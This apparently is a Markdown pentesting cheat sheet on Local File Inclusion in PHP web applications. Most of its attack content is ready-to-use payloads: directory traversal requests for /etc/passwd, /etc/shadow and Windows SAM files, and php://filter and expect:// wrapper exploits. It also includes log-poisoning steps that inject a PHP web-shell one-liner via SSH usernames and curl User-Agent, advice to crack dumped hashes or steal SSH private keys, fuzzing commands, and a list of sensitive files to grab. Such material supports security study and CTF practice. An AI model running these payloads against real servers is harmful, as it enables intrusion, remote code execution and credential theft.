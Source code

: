 ## LFI Local File Inclusion
### Table of Contents
- [LFI Local File Inclusion](#lfi-local-file-inclusion)
  * [Table of Contents](#table-of-contents)
  * [Introduction](#introduction)
    + [Example:](#example-)
  * [Directory Traversal](#directory-traversal)
    + [Basic Linux Test](#basic-linux-test)
  * [PHP Wrappers](#php-wrappers)
    + [PHP Expect Wrapper](#php-expect-wrapper)
    + [PHP Filter Wrapper](#php-filter-wrapper)
  * [RCE via SSH](#rce-via-ssh)
  * [RCE via Apache logs](#rce-via-apache-logs)
  * [LFI to RCE via credentials files](#lfi-to-rce-via-credentials-files)
    + [Windows version](#windows-version)
    + [Linux version](#linux-version)
  * [Automated LFI with Wfuzz](#automated-lfi-with-wfuzz)
  * [Resources](#resources)
- [Requests to look out for](#requests-to-look-out-for)
  * [Fuzzing for subdomains](#fuzzing-for-subdomains)
  * [Files to grab if you get LFI](#files-to-grab-if-you-get-lfi)

### Introduction
- An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server.
- LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
- ![lfi](https://user-images.githubusercontent.com/75596877/138767265-ed9d8d7f-38f2-43cf-9622-8d4890f0664e.png)

#### Example:
````
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
````
- In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.
````
http://example.com/?file=../../uploads/evil.php
````
### Directory Traversal
- Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. 
- An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.
````
http://example.com/?file=../../../../etc/passwd
````
- Testing 
- If you see a webpage URL look like this:
````
/script.php?page=index.html 
````
#### Basic Linux Test
Test for:
````
/script.php?page=../../../../../../../../etc/passwd
````
### PHP Wrappers
- PHP has a number of wrappers that can often be abused to bypass various input filters.
#### PHP Expect Wrapper
- `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default
````
php?page=expect://ls
````
#### PHP Filter Wrapper
`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
````
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
````
- `php://filter` can also be used without base64 encoding the output using:
````
?page=php://filter/resource=/etc/passwd
````
### RCE via SSH
- Try to ssh into the box with a PHP code as username <?php system($_GET["cmd"]);?>.
````
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
````
- Then include the SSH log files inside the Web Application.
````
http://example.com/index.php?page=/var/log/auth.log&cmd=id
````
### RCE via Apache logs
- Poison the User-Agent in access logs:
````
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
````
- Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.
- Then request the logs via the LFI and execute your command.
````
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
````
### LFI to RCE via credentials files
- This method require high privileges inside the application in order to read the sensitive files.
#### Windows version
- First extract sam and system files.
````
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
````
- Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.
#### Linux version
- First extract /etc/shadow files.
````
http://example.com/index.php?page=../../../../../../etc/shadow
````
- Then crack the hashes inside in order to login via SSH on the machine.
- Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa. 
- If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
### Automated LFI with Wfuzz
- Automate LFI Tests
- Download the `traversal.txt` file in this folder (from PayloadAllTheThings)
- Test with `wfuzz`
````
wfuzz -u "http://10.10.218.222/article?name=FUZZ" -w traversal.txt | grep 200
````
- `grep 200` for the `Ok` status code
- `w` -> the wordlist
- `?name=FUZZ` -> the parameter you want to fuzz
  ### Resources
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-phpinfo
## Requests to look out for
- ![alt text](https://miro.medium.com/max/2400/1*uMZmYUNcqjh4Rht11nGQDw.png)
- We notice the request with a `?` indicating possible LFI but we are not sure the paramater it wants
- Attempt to fuzz the parameter for command injection and file inclusion
- Wordlist to use:
````
traversal.txt
/usr/share/Seclists/Discovery/Web-Content/burp-parameter-names.txt
````
- Use FFuF, or wfuzz
### Fuzzing for subdomains 
````
ffuf -u http://vulnnet.thm -H "Host: FUZZ.vulnnet.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fs 5829
````
- ### Files to grab if you get LFI
````
/etc/passwd
/etc/shadow
/etc/hosts
/etc/issue
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
CMS Config Files
/etc/apache2/.htpasswd
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
/usr/local/apache2/apache2.conf
/var/www/html/.htpasswd
````
















